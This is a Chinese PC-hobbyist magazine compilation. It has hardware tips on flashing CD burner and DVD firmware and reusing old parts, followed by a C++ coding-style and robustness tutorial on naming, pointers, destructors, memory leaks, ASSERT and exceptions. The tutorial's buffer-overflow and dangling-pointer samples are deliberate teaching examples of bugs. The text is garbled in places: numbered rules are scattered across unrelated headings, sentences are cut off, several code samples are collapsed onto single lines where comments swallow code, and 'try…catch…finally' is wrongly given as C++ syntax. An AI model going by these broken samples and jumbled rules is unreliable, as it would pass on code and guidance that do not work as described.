需要指出的是，InkSaver 支持惠普、爱普生、佳能等多种主流喷墨打印机，如果你正在为墨水所花费的银子心痛，就让它来帮你节约一些开支。

## （九）BIOS 刷新

BIOS就是基本输入输出系统的简称，在主板、显卡、刻录机、DVD 光驱等设备中都有 BIOS芯片，而对这些设备的 BIOS 升级也就成为提升性能的一种免费方法。由于以前对主板和显卡的 BIOS 刷新介绍的比较多，在此就不详述了，下面简要介绍一下刻录机和 DVD 光驱的 BIOS 刷新方法。

### 1. 刻录机的BIOS刷新

检验一台刻录机是否可以升级 BIOS 必须具备两方面的条件：这台刻录机是否采用了Flash ROM作为 BIOS存储器；能否找到这台刻录机对应的升级软件和 BIOS文件。一般来说，建议大家到刻录机的官方网站或者是驱动之家(http://www.mydrive.com)去查看这两个信息，如果你的刻录机均满足这两个条件，那咱们就可以进行 BIOS 刷新操作了。下面以笔者使用的 Teac CD-W512EB 为例介绍一下 BIOS 升级的步骤。

-   (1)首先在Teac网站下载到Teac CD-W512EB对应的2.0H版本BIOS升级程序，这个程序是一个自解压缩的EXE文件，将其解压缩到一个临时文件夹中。
-   (2)运行解压缩之后的UpdaterW512EB.exe文件，这时程序会询问你是否将当前的刻录机进行 BIOS 刷新操作，点击【Yes】按钮之后开始BIOS刷新，稍等片刻之后可以看见如图24所示的完成提示。

需要提醒大家注意的是，在刷新 BIOS 之前一定要将刻录机中的光盘取出，而且在整个刷新过程中不要运行其他读取光驱的操作，也不要运行其他占用资源的程序，以防止刷新失败。

-   (3)根据提示重新启动计算机，接着运行 Nero 之类的刻录软件，通过软件中的刻录机查看信息来看看当前刻录机的版本。如图25所示，此刻录机的BIOS版本已经是2.0H，这就说明BIOS的刷新成功了。

如果在刷新刻录机BIOS过程中出现意外断电或者是其他事项导致失败也没有关系，只要重新启动计算机并按照上述步骤重新刷新一遍BIOS即可，这可比主板、显卡的BIOS升级失败的处理方法简单多了。

### 2. DVD的BIOS刷新

DVD的BIOS一般被称之为Fireware，它的刷新方法和刻录机差不多，不过首先要确认当前DVD使用的BIOS版本，然后找到与DVD相对应的刷新程序、BIOS升级文件来进行操作。

确认当前DVD使用的Fireware版本可以在开启计算机时候通过程序自检的信息来辨别，不过这样操作需要你眼明手快，一个不留神就会错过重要的信息。不过我们可以在Windows中打开控制面板，双击【系统】图标并通过【设备管理器】来识别DVD的Fireware版本。另外，我们可以按照http://hnftp.soft163.com/driveinfo21.zip的地址链接下载一个Drive Region Info程序，运行之后选取正在使用的DVD光驱，程序会自动帮你识别出DVD的Fireware版本号，以及剩余区码更改的次数等信息（如图26），例如笔者使用的就是Toshiba SD-C2402型号的DVD，它的Fireware版本为1417。

确认DVD的型号与Fireware版本之后，就需要到官方网站或者是驱动之家之类的站点搜索与其对应的Fireware升级文件。例如将笔者下载的1612_c2402.zip解压缩之后有update.bat、c2402.hex和v138teg.exe三个文件，其中c2402.hex就是Fireware的升级文件、v138teg.exe是刷新文件，而update.bat则是一个批处理文件，用它可以直接运行升级程序。

由于DVD的Fireware刷新需要在DOS模式下进行，所以我们需要用DOS系统盘重新引导计算机，接着进入存放有升级文件的目录并输入“update”命令，稍等片刻之后完成刷新操作。最后再返回Windows中查看一下Fireware的版本号，这时应该有所更新了吧，那就恭喜你顺利升级Fireware成功！

### 五、废旧电脑配件再展新颜

当你升级计算机或者是更换了某些硬件设备之后，那些淘汰下来的部件设备真是有些鸡肋的味道：放着占地方，扔了可惜，卖了又不值钱，怎么处置这些设备还真让人头痛。那下面咱们就来看看如何变废为宝，让这些废旧的电脑部件再展新颜。

### (一) 利用旧风扇增强散热性能

升级计算机时候经常会多出一些旧风扇，这些风扇虽然无法直接使用在当前的计算机上，但是只要有两个风扇，再通过我们稍加改造，还是能够让它发挥一些余热来增强计算机的散热性能。

首先需要准备两根机箱后部的插板销片，然后用强力胶把风扇并排粘贴在销片上。此时注意一定要反接风扇，即按照风扇出风口面对销片、进风口面对机箱来粘贴，而且销片之间要保证风扇转动之后不会影响空气的流动。完成之后，用电烙铁将这两个销片焊接在机箱后部的散热口前方并接好风扇的电源。这样再开机运行Windows，此时两个风扇就全力工作，将机箱内部的热量排放到机箱外，温度自然也就下降许多了。

在这个过程中，提醒大家注意的是一定要让风扇的出风口对着机箱外部，否则有可能让热量始终残留在机箱内，导致降温的效果不理想。也不要尝试一个风扇用于吸风，一个风扇用于排放热量，这样会导致机箱内的空气流动紊乱，从而降低散热效果。另外，在粘贴和焊接的时候要确保贴牢、焊牢，否则风扇掉下来有可能砸坏板卡部件，这样就得不偿失了。

### (二) 双声卡打造4音箱

有些朋友手中有两套音箱，但是通常声卡上只有一个输出接口，怎样才能让它们都可以正常工作呢？这时不妨利用淘汰下来的声卡来解决这个问题。

首先将淘汰下来的声卡按照正常步骤装到计算机中，并且安装好驱动程序。此时需要提醒大家注意的是，如果你以前使用的是主板集成的 AC97 声卡，那么在安装第二块声卡之前一定要进入 CMOS 中把【Intergrated Peripherals Option】项目中的【AC'97 Audio】设置为【Disabled】，在完成声卡的安装之后再将其设置为【Enabled】来激活板载的声卡，否则有可能出现第二块声卡无法安装的问题。

但是把两套音箱分别接入到两个声卡的【Line Out】插孔之后，播放音乐的时候只有一个设备能够出声，此时需要把一个声卡的声音通过板载声卡输入口进入，这样就可以让两个音箱同时工作了。不过实现这个目的需要购买一个一转二的音频接口和一根双头音频线；然后将一转二音频接口接到新装声卡的【Line Out】接口上，一转二接头上的两个接口分别接音箱和双头音频线。接着将双头音频线的另一头插入板载 AC97 声卡上的【Line In】接口，再将另外一对木质音箱用音频线接到 AC97 声卡的【Line Out】接口上，工作就算完成了。

最后还要提醒大家检查一下 AC97 声卡的属性，此时双击右下脚的喇叭图标，并且在弹出的音量控制窗口中将【线路】下面的静音勾号去除，否则两个音箱还是无法同时工作的(如图 27)。

怎么样，现在用4个音箱尝试一下欣赏VCD的感觉，是不是声音质量明显比以前有所提高？看来不需要购买高档的4.1声卡也能够获得理想的效果了。

### (三) 利用旧硬盘制作移动硬盘

当我们购买了全新的大容量硬盘之后，原先的几个GB甚至是几百MB的硬盘怎样处置呢？现在最流行的一种方法就是自己DIY一个USB移动硬盘，这样既不会开销太大，也可以随身携带，复制一些重要文件非常方便。

首先我们要去购买一个USB移动硬盘盒，目前的价格大约在100元左右，而且一般随硬盘盒还附送了一根USB连接线缆和一个PS2接口的电源线。然后根据说明书介绍，将旧硬盘跳线调整至“Master”状态，也就是作为主盘使用，接着把它插入到USB硬盘盒中(如图28)。

完成之后把制作好的移动硬盘接上电脑，同时将PS2接口线缆连接好，开机之后系统会提示发现新硬件。如果你使用的是Windows 98，那么还要用驱动盘安装驱动程序，如果是Windows 2000/XP则无需安装驱动程序即可直接使用。完成安装后打开我的电脑，里面就多出一个移动硬盘了，而可以在【设备管理器】中查看到这个新增的移动硬盘。

以后咱们出去的时候只要带上这个USB硬盘，然后再用软盘准备一下驱动程序，就可以随意的和其他计算机交换文件了，这样利用淘汰下来的旧硬盘还不错吧。

### (四) 利用旧Modem组建家庭电话中心

当越来越多的朋友通过宽带上网之后，原先的Modem就光荣下岗了。其实你先别着急把Modem送人或者折价卖了，它可以帮你在家中建立一个电话中心：当你不在家的时候，就可以由它自动应答并进行电话录音；如果电话不是找你的，可以由对方按下电话机的拨号按键接驳到不同的分机；在出差的时候还能够在千里之外直接通过电话或者手机来收听别人给你的电话留言。这些看起来似乎都是很专业的东西，不过只要你有了电脑、Modem和IVM Telephone Answering Attendant这个软件之后，这些想法完全能够变成为现实。关于IVM Telephone Answering Attendant具体的介绍与使用请参阅《电脑爱好者合订本2002(上)》正文分册中的相关内容，在此就不详述了。

（文/赵江）

## 3. 重要的代码

程序中的重要代码很有必要加上注释，就像高速公路急转弯的地方需要设置醒目的路标一样。以下代码摘自 MFC 中的 ReBar 实现文件 BarCool.cpp。

```cpp
void CReBar::OnHeightChange(NMHDR* /*pNMHDR*/,
LRESULT* pResult)
{
    // does the CReBar have a frame?
    CFrameWnd* pFrameWnd = GetParentFrame();
    if (pFrameWnd != NULL)
    {
        // it does -- tell it to recalc its layout
        if (!pFrameWnd->m_bInRecalcLayout)
            pFrameWnd->RecalcLayout();
        else
            PostMessage(WM_RECALCPARENT);
    }
    *pResult = 0;
}
```

注释虽然能使代码变得更清晰，不过也不要随意滥用，以下是程序员使用注释时的一些参考原则。

- ①注释是对代码的“提示”，而不是文档。所以程序中的注释不可喧宾夺主，注释太多了会让人眼花缭乱。另外，注释的花样要少，避免使用装饰性内容，也就是说，不要使用像广告横幅那样的注释语句。这里有一个典型的例子，二十世纪六、七十年代，COBOL 程序员养成了画框的习惯，用星号将内部注释圈起来。坦白地说，这种“艺术创造”，只是在浪费大量时间。
- ②如果代码本来就是清楚的，则不必加注释。例如“i++；// i 加1”，这里的“i 加1”就是多余的注释。
- ③边写代码边注释，修改代码的同时也要修改相应的注释，以保证注释与代码的一致性。不再有用的注释要及时删除。
- ④注释应当准确、易懂，防止注释有二义性。错误的注释不但无益反而有害。
- ⑤尽量避免在注释中使用缩写，特别是不常用缩写。
- ⑥注释的位置应与被描述的代码相邻，可以放在代码的上方或右方，不可放在下方。
- ⑦当代码比较长，特别是包含多重嵌套时，应当在段落的结束处加注释，以便阅读。

当然这些原则仅作参考，目的是提高程序质量。千万不要教条主义，照搬照抄只会让程序员成为傻子。

#### (二)使用空白(Blank)

空白可以使程序清晰，也有利于程序员发现明显的拼写错误。一般来说，空白包括以下几种。

### 1. 空格(Space)

①关键字(keyword)与操作符(operator)左右要保留合适的空格。例如：

```cpp
//钱不够
if(nMoney < nPrice)
    return false;
return true;
```

②一元操作符不需要空格，例如：

```cpp
int *p = &mil;
```

### 2. 空行(Empty line)

空行起着分隔程序段落的作用。空行得体(不过多也不过少)将使程序的布局更加清晰。而且空行不会浪费内存，最多打印含有空行的程序是会多消耗一些纸张。一般来说，在每个类声明之后、每个函数定义结束之后都要加空行；在一个函数体内，逻辑上密切相关的语句之间不加空行，其他地方应加空行分隔。

### 3. 制表符(Tab)

制表符通常用来实现代码行的缩进，制表符<Tab>占用4个或8个空格位置不等(与具体的编辑器设置有关，一般为 4 个)，但是实际上就是一个字符。推荐使用Tab取代空格作为代码行的缩进。在很多编辑器(如 Word)里，选定一段文本，通过<Tab>或者<Shift>+<Tab>即可实现文本的缩进。

缩进一般应用于以下场合。

- ①由{}括起的语句块，例如：

```cpp
for(int i = 0; i <nCount; i ++)
{
    if(sFound [i] == "cfan")
        break;
}
```

- ②引导语句块的关键字包括for、if、while、do、class、struct、enum、try、catch、finally以及switch等。有时语句块可能只包含一条语句，注意此时的缩进亦不可少。
- ③由类成员访问控制符引导的语句块，例如：

```cpp
class CMan
{
    private:
        int m_Debt; //债务
```

全局变量前面统一加上“::”，如以上代码中的::nMoneySum;在引用基类的成员变量或者函数时，如果该标识符被重载或者覆盖，最好加上域作用符，例如:

④由 case 引导的分支语句块，例如:

```cpp
switch(nSex) { case 0: sDescription = "女"; break; case 1: sDescription = "男"; break; }
```

```cpp
void CMyDlg::OnSysCommand(UINT nID, LPARAM lParam) { // 支持 About 命令 if ((nID & 0xFFF0) == IDM_ABOUTBOX) { CAboutDlg dlgAbout; dlgAbout.DoModal(); } else { CDialog::OnSysCommand(nID, lParam); } }
```

⑤长语句的第二行，例如:

```cpp
if(nAge >= 50 && nAge < 60 && nSex == 0) { //... }
```

⑦类名附以前缀 C，如 class CUser。

#### (三)标识符(Identifier)

⑧类数据成员的标识符附以前缀“m_”，如 m_UserName。

爱护每一个标识符，为它们取个好名字，否则再好的程序也艺术不起来。以下是一段极不艺术的代码片段，完全不知所云。

```cpp
void fun1(int m) { M += m; fun2(m); }
```

再来对比一下优化过的代码，可以清楚地看出是一段追加月工资的程序。

```cpp
void AddMoney(int nMoneyThisMonth) { ::nMoneySum += nMoneyThisMonth; // 记录追加日志 // Log(nAdd); }
```

使用合适的类型标记。著名的“匈牙利命名法”为类型标记定义了详尽而冗长的规则，下表是其对类型标记的简化规则。

标识符的命名最好符合以下规则。

| 类型 | 缩写 | 举例 |
|---|---|---|
| 布尔型 | b | bOpen |
| 数字型 | n | nMoneySum |
| 日期型 | d | dNow |
| 字符串 | s | sTitle |
| 字符型 | c | cSeparator |
| 指针型 | p | pItem |
| 句柄型 | h | hIcon |

①标识符应当直观并且简单，切忌使用过长的标识符(代码的艺术性并非与标识符的长度成正比)，忌用拼音缩写(那样不仅难读，而且——很土)。

如果是指向指针的指针，或者指向一个数字型数据的指针，那该怎么写呢？是不是该写成 pp 和 pn? 完全没必要，一个 p 前缀即可，采用类型标记的目的只是让你能大致地明白标识符的含义，切忌“搬石头砸自己的脚”。

②不要让仅以大小写区分的标识符同时使用。如:nMoney 和 nMONEY。

③对于简单的临时变量，可以使用简单的标识符，如 i、j、k 等。

④使用合适的大小写。可以通过大小写来分隔标识符，如 AddMoney();对于程序中使用到的宏，最好采用全大写，如 RGB()。

### 二、代码的鲁棒性

⑤使用合适的下划线。下划线可以用来分隔标识符，但更多的是用以标识内部变量和函数，如 _MAX_PATH 和 _atoi64()。

“没有最稳，只有更稳”，几乎没有一个程序是完全稳定的，简单的 HelloWorld 在内存紧张的时候也可能会束手无策。但，我们的目的是让程序相对更稳

⑥使用合适的域作用符。一条很好的建议就是在

#### (一)小心掉进错误陷阱

一切从小事开始，在 C++语言里，存在着很多危险的错误陷阱，就像《雷电II》里面的漩涡，一不小心就会掉进去——只有学会正确地避免它们，才能将程序的危险性降低到最低限度。

以下内容介绍常见的错误陷阱。

## 1. 奇怪的表达式(Expression)

看一看下面的表达式：

```cpp
int i = 100;
i += i = 10 + ++i + i + i++;
```

这是完全合法的一例表达式，知道该死的 i 会有什么样的值？ 这是常见面试题中的一种，许多老师和招聘单位总会拿出这样的表达式来整人并藉以炫耀，常常让人想到孔乙己的那句名言“你知道茴字有几种写法？”

写出这样的表达式是不负责任的，不同的编译器很有可能会得出不同的结果。优秀的程序员应该避免这样的写法。否则，会有想象不到的灾难来临。

使用表达式时最好遵循以下规则。

1.  不要过分地依赖于各操作符的优先权，在必要的时候使用括号()，例如：

    ```cpp
    bool bValue = (i > j) && (i < 0 || j < 0);
    ```

2.  不要过分地依赖于表达式的赋值顺序，如尽量少用++i、++j等。
3.  if语句谨防"=="写成"=", 例如：

    ```cpp
    if(i = 0)
    {
      //nerver goes here
    }
    ```

牢记这些原则，否则自己酿造的苦果，还得自己去独享。不负责任的表达式永远不会让编译器弄昏，而作为程序员的你，只会越来越糊涂。

## 2. 奇怪的指针(Pointer)

指针问题其实就是内存问题。指针是好东西，内存里面的东西，它高兴指哪就指哪，非常方便。然而，指针之于程序员正如手枪之于顽童，使用不当，没准儿顽童就会沦为凶手。

如图1所示窗口就是令人心惊肉跳的内存错误。


出了这种问题，对于程序来说，基本上是没救了。

这种还只是明显的错误，还有更可怕的，以下是个危害更大的例子：

```cpp
#include <stdio.h>
#include <string.h>
//定义一个用户类
struct CUser
{
  char m_sUserName[6];
  int m_nHeight;
};
void main()
{
  //定义一个用户
  CUser BillGates;
  BillGates.m_nHeight = 176;
  strcpy(BillGates.m_sUserName, "Bill Gates");
  printf("%s:%dcm", BillGates.m_sUserName, BillGates.m_nHeight);
}
```

以上是个完整的例子，程序没有报错，以下是程序某次运行输出的结果。

Bill Gates:29541cm

很显然，Bill Gates 的身高不会有这么高。问题出在strcpy()这个指针函数，它无视安全规则，在内存里胡写一气，结果 Bill Gates 的身高就被改写了(当然，strcpy()是个标准函数，错误仍在于分配给CUser::m_sUserName的内存太小)。

指针指来指去不是个好办法，当代码量增大的时候，指针操作引起的错误会越来越不可控制。这些错误往往让程序员非常头疼，同时让用户也很头疼，当他们满腹牢骚地向程序抱怨时，这些潜在的错误没准儿又会偷偷地隐藏起来。

看来必须要采取措施了，以下是一些必要的措施：

1.  不要数组越界。数组越界时；C++根本不会提醒你，用好自己的数组是程序员的义务。
2.  不要使用“野指针”。

指向无效内存(相对于本进程而言)的指针，即野指针。野指针是“没人管的指针”，还使用它程序注定要出错。野指针出现的成因大致如下。

1.  没有初始化指针的值，例如：

    ```cpp
    char *p;
    printf("%s", p);
    ```

    谁知道 printf()会输出什么样的内容？！

2.  继续使用释放后的内存指针，例如：

    ```cpp
    char *p = new char [10];
    delete [] p;
    printf("%s", p);
    ```

3.  局部变量的自动销毁往往也可能造成野指针的形成，例如：

```cpp
CUser * CloneUser(char * sUserName, int nHeight)
{
    CUser User;
    strcpy(User.m_sUserName, sUserName);
    User.m_nHeight = nHeight;
    CUser * pUser = &User;
    return pUser; //User是局部变量, 出函数体会自动销毁
}
```

```cpp
void foo()
{
    CUser * pUser = CloneUser("Bill Gates", 176);
    printf("%s:%dcm", pUser->m_sUserName, pUser->m_nHeight);
}
```

想都不用想，foo()输出的结果肯定要出错。
怎么办呢？对策是有的，以下为笔者推荐的指针使用原则。

- ① 使用类型正确的指针。指针就是一段内存的地址，如果将这段内存解释为其他类型(非基类)的内容，结果肯定要出乱子。NULL指针是这种情况的特例，例如：

```cpp
int nHeight = pUser->m_nHeight;
```

如果pUser指向NULL，或者pUser只是指向一个简单的整数，恭喜你，前面那个恐怖的窗口肯定会来光顾了。

- ② 勤用 const。使用 const 可以防止程序员自己不能意外修改不应该被修改的指针或内容，例如：

```cpp
char * strcpy(char * dest, const char *src)
{
    *src = '?'; //error C2166: l-value specifies const object
    return dest;
}
```

- ③ 正确释放内存。C++ 支持程序员使用 new/delete 和 malloc()/free()来申请/释放内存，“解铃还需系铃人”，切记不要“配错对”。此外，delete 既可用于变量亦可用于变量数组，最好不要混淆，例如：

```cpp
int *p = new int;
delete [] p; //error, use delete p instead
```

释放后的内存容易造成野指针，一般推荐的用法是马上将指针赋值 NULL，防止再用，例如：

```cpp
CUser * pUser = new CUser();
//...
if(pUser)
{
    delete pUser;
    pUser = NULL;
}
```

## 3. 奇怪的析构(Destruction)

析构总会不声不响地发生，当你兴致勃勃地准备使用某个内存变量时，却意外地发现这段内存已经释放了，没有比这更让人懊恼的事情了，以下是个极好的例子。

```cpp
#include <stdio.h>
#include <string.h>

//自定义字符串类
class CString
{
public:
    char * m_pData; //字符串指针
    CString(char *pSrc);
    ~CString();
};

CString::CString(char *pSrc)
{
    m_pData = new char[256]; //申请内存
    strcpy(m_pData, pSrc);
}

CString::~CString()
{
    if(m_pData)
    {
        delete [] m_pData; //释放内存
        m_pData = NULL;
    }
}

void foo(CString m)
{
    //什么都没干，但注定要闯祸
}

void main()
{
    CString s("yahoo!");
    foo(s);
    printf("%s", s.m_pData);
}
```

程序的输出结果是一大堆莫名其妙的字符(倒霉的程序员会经常遇到这些字符，“烫烫烫”或者“茸茸茸”什么的)，果然，内存又出错了。

这是析构函数捣的鬼。当调用 foo() 的时候，C++ 将 s 对象完全拷贝了一份作为参数(即临时对象 m, 注意 m.m_pData == s.m_pData，没有谁会为 m.m_pData 再申请一份内存)传送过去，而在结束 foo() 函数之前，C++ 将会调用析构函数销毁掉临时对象 m，~CString() 释放了 m.m_pData 指向的内存(也即 s.m_pData 苦心经营的那份内存)，当 s 对象再来取值的时候，悲剧发生了。

看来，析构不是什么好玩的东西，为了避免析构产生不必要的麻烦，以下是一些程序员最好做的。

- ① 对于内存动态分配的类，定义其拷贝函数(copy constructor). 对于以上那个失败的 CString, 就可以通过以下的拷贝函数来补救。

```cpp
CString::CString(const CString & Src)
{
    m_pData = new char [256];
    strcpy(m_pData, Src.m_pData);
}
```

这样当 foo()被调用之前, C++ 会调用拷贝函数为它准备一份崭新的 CString 对象, 它有自己的内存空间, 这样恐怖的错误就避免了。

- ②将析构函数定义成 virtual(虚函数), 以使 C++ 能准确无误地找到派生类的析构函数。
- ③注意析构的顺序。在多继承和多层函数调用的时候, 理解各对象的析构是很有必要的。此外, 在 Windows 消息编程中, 理解析构的正确时机也是至关重要的, 不要固执地要求一个早已销毁的窗口再为你显示 "Hello, World!"。

## 4. 奇怪的内存泄漏(Memory leak)

内存不总是取之不尽的, 它也会有不够用的时候, 如图2所示。


除了正当的内存消耗, 造成内存紧缺的另一个常见原因就是内存泄漏。“内存泄漏”听起来很玄, 其实并不高深。通俗一点讲, 内存泄漏(memory leak)就是“你的应用程序借了系统的内存却忘了还”, 你的程序退出后, 它所申请的内存还没有得到完全释放, 这就是“内存泄漏”。很显然, 这种事情发生, 对那些正在眼巴巴地等着内存资源的应用程序来说, 绝对不是好消息。

内存泄漏不是最坏的事, Windows 2000 据说可以将那些泄漏的内存给找回来。但谁都知道, “光借不还”确实不是个好习惯。

究根求源, 程序中的内存泄漏主要有两种。

- ①用 new, malloc, GolbalAlloc 等函数分配的堆内存没有用 delete, free, GlobalFree 等释放。记住适时释放堆内存并不仅仅靠好的记忆力就能办到的, 旧版的 CJLib 就存在严重的内存泄漏问题。当申请内存和释放内存的动作不是来自于同一个模块, 同一个开发者的时候, 内存泄漏更容易发生。

以下是个很常见的例子, Windows 提供了一个用于选择文件夹的 API:

LPITEMIDLIST SHBrowseForFolder(LPBROWSEINFO lpbi); 这个函数用于显示“选择文件夹”的窗口(如图3)并支持用户选择操作, 它的出口参数是一个指向 ITEMIDLIST 变量的指针(如果用户选择“取消”按钮, 则为 NULL), 这段内存由 SHBrowseForFolder 申请, 所以程序员有义务释放之。封装后无内存泄漏的 BrowseForFolder 函数代码如下。


```cpp
//显示选择文件夹窗口
//参数 sFolderPath: 用于返回用户选择的文件夹的路径
//参数 sTitle: 用于指定选择文件夹窗口的标题
//返回值 : 操作结果, 用户取消选择或操作失败返回 false, 否则 true

bool BrowseForFolder(CString &sFolderPath, CString sTitle)
{
    BROWSEINFO bi;
    char Buffer[_MAX_PATH];
    // 初始化入口参数 bi
    bi.hwndOwner = NULL;
    bi.pidlRoot = NULL;
    bi.pszDisplayName = Buffer;
    bi.lpszTitle = sTitle;
    bi.ulFlags = 0;
    bi.lpfn = NULL;
    LPITEMIDLIST pIDList = SHBrowseForFolder(&bi);
    // 用户取消选择
    if(!pIDList)
        return false;
    SHGetPathFromIDList(pIDList, Buffer);
    sFolderPath = Buffer;
    LPMALLOC lpMalloc;
    if(FAILED(SHGetMalloc(&lpMalloc)))
        return false;
    // 释放内存
    lpMalloc->Free(pIDList);
    lpMalloc->Release();
    return true;
}
```在绘图时创建的GDI对象没有释放。不过，使用MFC的GDI对象类基本上可以高枕无忧，当局部变量失效后对象会自动销毁，并释放对应的GDI对象。如下为CGdiObject的析构函数：

```cpp
CGdiObject::~CGdiObject()
{
    DeleteObject();
}
```

注意局部变量的析构函数会自动调用delete，要注意与new对应，所以CGdiObject作为基类。

```cpp
CPen *pPen=new CPen();
// 使用...
CPen Pen;
```

内存泄漏可以通过 CMemoryState 检测到，但问题的解决还需要你的好习惯——借了就该还！

## （二）利用调错方法自救

现在你已经学会如何小心翼翼地编写代码，并且很巧妙地绕开以上列举的种种陷阱。但人总会有很背的时候，某个烦恼的下午，你突然发现，倒霉的你还是掉进了陷阱……天哪，你该怎么办？该怎么去处理和定位这些刁钻的错误？别急，慢慢来……

### 1. 使用调试器跟踪错误

Visual C++ IDE（Integrated Development Environment，集成开发环境）一般都提供了功能强大的调试器，包括联编（Build）工具和调试（Debug）工具，如图4所示，是 Visual C++ 的联编工具栏。


如图5所示，是 Visual C++ 的调试工具栏。


这些功能都很常用。通过调试器可以快速发现错误发生的地点和观察程序的行为。
如图6所示窗口为程序Damn.cpp的调试现场，可以看出，通过调试工具能很及时地观察到各内存变量值的变化，以及内存块和寄存器的内容。
配合使用各种调试工具，对一般性的错误，都可以快速地定位到错误源。


### 2. 使用 CMemoryState 检测内存泄漏

CMemoryState 是 Visual C++ 提供的内存检测类，主要用于检测程序中的内存泄漏。CMemoryState 具有以下成员函数。

- CMemoryState::Checkpoint() ：设置检测点。
- CMemoryState::Difference()：比较两个 CMemoryState 对象。
- CMemoryState::DumpAllObjectsSince()：dump 检测点以后所有的对象。
- CMemoryState::DumpStatistics()：打印内存统计信息。

使用 CMemoryState 检测内存泄漏的步骤很简单，先准备两个对象分别在程序的首尾位置设置检测点，然后调用Difference()得出它们的差异，并将差异打印出来，程序员即可得知程序中内存泄漏的程度。

以下是使用 CMemoryState 的例子，注意观察。

```cpp
void foo()
{
    CMemoryState ms1, ms2, ms3, msd;
    ms1.Checkpoint();
    int *ip = new int [100];
    ms2.Checkpoint();
    delete [] ip;
    ms3.Checkpoint();
    msd.Difference( ms1, ms2);
    msd.DumpStatistics(); //未释放内存
    TRACE("\r\n");
    msd.Difference( ms1, ms3);
    msd.DumpStatistics(); //已释放内存
}
```

其Debug 结果如下。
0 bytes in 0 Free Blocks.
400 bytes in 1 Normal Blocks.
0 bytes in 0 CRT Blocks.
0 bytes in 0 Ignore Blocks.
0 bytes in 0 Client Blocks.
Largest number used: 400 bytes.
Total allocations: 400 bytes.

0 bytes in 0 Free Blocks.
0 bytes in 0 Normal Blocks.
0 bytes in 0 CRT Blocks.
0 bytes in 0 Ignore Blocks.
0 bytes in 0 Client Blocks.
Largest number used: 400 bytes.
Total allocations: 400 bytes.

可以从输出数据发现，在 delete [] ip 释放内存之前，系统存在内存泄漏（泄漏值为400 bytes），在释放之后，内存泄漏消失了。

使用 CMemoryState 可以有效地检测到程序中的内存泄漏。但至于如何避免内存泄漏的发生，还是遵循前面提到的原则为妙。

### 3. 使用断言（ASSERT）警告错误

错误往往在灾难真正到来之前就已经发生。在乘客候车室里打上“严禁易燃易爆品”的标语要比准备更多的灭火器和消防员经济得多。程序员完全可以在代码中的某些位置进行设置以防止不法问题的发生，使用ASSERT即可达到这个目的。

在 Visual C++ 中，断言 ASSERT 是仅在 Debug 版本中起作用的宏，它用于检查“不应该”发生的情况。ASSERT 的语法如下：

```cpp
ASSERT( bExpression )
```

正如 ASSERT 的含义，这个语句的意思就是“条件 bExpression 一定得满足”（即条件 bExpression 为 true），当 bExpression 为 false 的时候，Visual C++ 将会给出警告。

例如，“奇怪的指针”一节中的例子可以改版如下：

```cpp
ASSERT(pUser != NULL);
int nHeight = pUser->m_nHeight;
```


当 pUser 不幸为 NULL 的时候，Visual C++ 在执行到 ASSERT 语句时将会弹出如图 7 所示的提示窗口。

选择“终止”以中止该程序；选择“忽略”以继续执行后面的语句；如果要查看错误源，则选择“重试”。

对于 Release 版本，ASSERT 没有任何作用。ASSERT 仅仅用以辅助程序员在开发中检查错误。

### 4. 使用异常（Exception）机制捕获错误

ASSERT 可以警告错误，但并不能解决错误，观察以下的代码。

```cpp
#include <afx.h>

float Divide(int a, int b)
{
    //被除数不能为0
    ASSERT(b != 0);
    return (float)a/b;
}

void main()
{
    float c = Divide(100, 20);
    printf("c=%f\r\n", c);
    float d = Divide(100, 0);
    printf("d=%f\r\n", d);
}
```

这是个简单的相除程序，很显然，在除以 0 的时候，它闯祸了。

```
c=5.000000
d=1.#INF00
```

尽管 ASSERT 提出警告（也仅仅是警告而已！），但一旦错误发生，应该有其相应的错误处理（handler）。在以上的例子中，发生了除以0，仅仅ASSERT是不够的，这时候返回任何一个标志错误的值都不合适，这种情况下，必须使用到异常（Exception）。以下是相除程序的鲁棒版。

```cpp
#include <afx.h>

class CDividedByZero
{
};

float Divide(int a, int b)
{
    ASSERT(b != 0);
    if(b == 0)
        throw new CDividedByZero();
    return (float)a/b;
}

void main()
{
    try
    {
        float c = Divide(100, 20);
        printf("c=%f\r\n", c);
        float d = Divide(100, 0);
        printf("d=%f\r\n", d);
    }
    catch(CDividedByZero * e)
    {
        delete e;
        printf("divided by 0!\r\n");
    }
}
```

运行结果如下：
c=5.000000
divided by 0!

异常是 C++ 中的新机制，它能从程序的出错点跳转出来，直到遇到合适的错误处理。使用异常机制的步骤如下。

1.  定义新的异常类型（异常其实就是一个类，如：CDividedByZero）。
2.  抛出该类型的异常（throw new CDividedByZero）。
3.  捕获该异常（try…catch…finally）。

异常的语法在此不再展开，有必要提出的是，很多程序员都不喜欢使用异常，比如大名鼎鼎的Microsoft Word就包含一个未捕获的内存异常，如图8所示。他们觉得这样会使程序变得臃肿，而且异常类似于goto跳转的机制让他们很不舒服，所以他们总是假定没有任何异常情况发生，这恰恰阻碍了程序推广和复用。不喜欢异常，不是一个好习惯，要改！


图8 Microsoft Word 未捕获的异常

### 三、代码的可用性

中国的程序员都不大喜欢公开代码，自己写的程序模块别人很难也很少有机会用得上，这是一件很奇怪的事情。每个自诩为很“牛气”的程序员总在花费相同的时间做着和别人重复的事情。很少有人在自己拷贝来的代码中声明别人的版权，这确实是太奇怪了。这样的事情发生，一方面与思维习惯有关，对国人来说，程序是用来使自己出名的，而不是使别人出名的，程序的源码和资料别人当然别想拿得到；另一方面，这样的情况与国人程序的质量有关，别人的程序拿过来，用不了，或者用得很不舒服，还不如自己重新写一个，其结果，当然会造成闭门造车，“百家争鸣”——而这绝对不是好事。

本节将引导你如何不浪费时间（自己的，和别人的）去重复劳动。

### （一）代码的可移植性（Portability）

你做的程序在别的平台也可以用吗？“应该没问题”，这是大多数程序员的回答。之所以“应该”，是因为程序员心里没底，在程序开发过程中程序的移植性一直是个门外话题。这样的程序拿出来，正如将中国的演员明星拿到好莱坞，让人心里总是没底。

以下是一些提高程序的可移植性的建议。

- 1. 将“设备相关”与“设备无关”程序分开。
正如Java的虚拟机与.class字节码文件其实就是将一个完整的程序分成两部分。
- 2. 将“功能模块”与“界面模块”分开：
如果开发一个网络服务端，你的程序很可能不在Windows里运行，而有可能运行于其他系统，如Solaris。
- 3. 使用系统提供的可移植性好的API。
笔者曾经开发了一个Flash动画浏览器，其中的目录浏览模块在最初的版本里，“桌面”的位置是通过某个可移植性不是很好的函数得到的，结果程序在Windows Me里就大丢洋相。后来笔者参考了CJLib，采用了SHGetDesktopFolder等函数，从而得到了与“资源管理器”完全类似的浏览界面，实践表明，该程序在Windows 95的后续版本运行一切正常。
- 4. 越低级的语言越难以移植。
